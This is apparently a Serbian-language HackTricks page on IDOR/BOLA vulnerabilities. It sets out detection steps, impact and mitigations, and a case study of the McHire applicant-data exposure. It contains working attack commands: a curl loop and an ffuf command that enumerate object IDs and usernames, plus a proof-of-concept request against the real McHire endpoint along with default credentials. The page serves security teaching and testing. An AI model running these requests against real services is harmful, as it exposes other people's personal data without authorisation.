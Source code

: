 # IDOR (Insecure Direct Object Reference)

{{#include ../banners/hacktricks-training.md}}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) se pojavljuje kada web ili API endpoint otkriva ili prihvata identifikator koji korisnik može kontrolisati koji se koristi **direktno** za pristup internom objektu **bez provere da li pozivač ima ovlašćenje** da pristupi/izmeni taj objekat.
Uspešna eksploatacija obično omogućava horizontalnu ili vertikalnu eskalaciju privilegija, kao što je čitanje ili izmena podataka drugih korisnika i, u najgorem slučaju, potpuno preuzimanje naloga ili masovno iznošenje podataka.

---
## 1. Identifikacija potencijalnih IDOR-a

1. Potražite **parametre koji referenciraju objekat**:
* Path: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Query: `?id=42`, `?invoice=2024-00001`
* Body / JSON: `{"user_id": 321, "order_id": 987}`
* Headers / Cookies: `X-Client-ID: 4711`
2. Dajte prednost endpointima koji **čitaju ili ažuriraju** podatke (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Obratite pažnju kada su identifikatori **sekvencijalni ili predvidivi** – ako je vaš ID `64185742`, verovatno postoji `64185741`.
4. Istražite skrivene ili alternativne tokove (npr. *"Paradox team members"* link na stranicama za prijavu) koji mogu otkriti dodatne API-je.
5. Koristite **autentifikovanu sesiju sa niskim privilegijama** i menjajte samo ID **zadržavajući isti token/cookie**. Odsustvo greške autorizacije obično je znak IDOR-a.

### Brzo ručno menjanje (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Automatizovana enumeracija (Burp Intruder / curl loop)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---

### Error-response oracle for user/file enumeration

Kada endpoint za preuzimanje prihvata i username i filename (npr. `/view.php?username=<u>&file=<f>`), suptilne razlike u porukama o grešci često stvaraju oracle:

- Nepostojeće korisničko ime → "User not found"
- Loš naziv fajla ali validna ekstenzija → "File does not exist" (ponekad takođe navede dostupne fajlove)
- Pogrešna ekstenzija → greška validacije

Sa bilo kojom autentifikovanom sesijom možete fuzz-ovati parametar username dok koristite bezopasan naziv fajla i filtrirati po stringu "User not found" da biste otkrili važeće korisnike:
```bash
ffuf -u 'http://target/view.php?username=FUZZ&file=test.doc' \
-b 'PHPSESSID=<session-cookie>' \
-w /opt/SecLists/Usernames/Names/names.txt \
-fr 'User not found'
```
Kada se identifikuju važeći korisnički nalozi, direktno zatražite konkretne fajlove (npr. `/view.php?username=amanda&file=privacy.odt`). Ovaj obrazac često dovodi do neautorizovanog otkrivanja dokumenata drugih korisnika i credential leakage.

---
## 2. Studija slučaja iz stvarnog sveta – McHire Chatbot Platform (2025)

Tokom procene regrutacione platforme Paradox.ai-pogonjene **McHire** otkriven je sledeći IDOR:

* Endpoint: `PUT /api/lead/cem-xhr`
* Authorization: user session cookie za **bilo koji** test nalog restorana
* Body parameter: `{"lead_id": N}` – 8-cifreni, **sekvencijalni** numerički identifikator

Smanjivanjem `lead_id` tester je preuzeo proizvoljne aplikante sa **potpunim PII** (ime, e-mail, telefon, adresa, preferencije smene) plus consumer **JWT** koji je omogućio session hijacking. Enumeracija opsega `1 – 64,185,742` otkrila je otprilike **64 miliona** zapisa.

Proof-of-Concept request:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Combined with **podrazumevanim administratorskim akreditivima** (`123456:123456`) that granted access to the test account, the vulnerability resulted in a critical, company-wide data breach.

---
## 3. Uticaj IDOR / BOLA
* Horizontalno eskaliranje – čitanje/izmenjivanje/brisanje podataka **ostalih korisnika**.
* Vertikalno eskaliranje – korisnik sa niskim privilegijama dobija funkcionalnosti rezervisane samo za admina.
* Masovno curenje podataka ako su identifikatori sekvencijalni (npr. ID-evi kandidata, fakture).
* Preuzimanje naloga krađom tokena ili resetovanjem lozinki drugih korisnika.

---
## 4. Ublažavanje & Najbolje prakse
1. **Primeni autorizaciju na nivou objekta** na svaki zahtev (`user_id == session.user`).
2. Preferiraj **indirektne, nepredvidive identifikatore** (UUIDv4, ULID) umesto auto-increment ID-eva.
3. Izvršavaj autorizaciju na serverskoj strani, nikada se ne oslanjaj na skrivena polja forme ili UI kontrole.
4. Implementiraj provere **RBAC / ABAC** u centralnom middleware-u.
5. Dodaj **rate-limiting & logging** kako bi otkrio enumeraciju ID-eva.
6. Bezbednosno testiraj svaki novi endpoint (unit, integration, and DAST).

---
## 5. Alati
* **BurpSuite extensions**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Github projekti**: `bwapp-idor-scanner`, `Blindy` (bulk IDOR hunting).



## Reference
* [McHire Chatbot Platform: Default Credentials and IDOR Expose 64M Applicants’ PII](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [Kako pronaći više IDOR-a – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
* [HTB Nocturnal: IDOR oracle → krađa fajlova](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)
{{#include ../banners/hacktricks-training.md}}
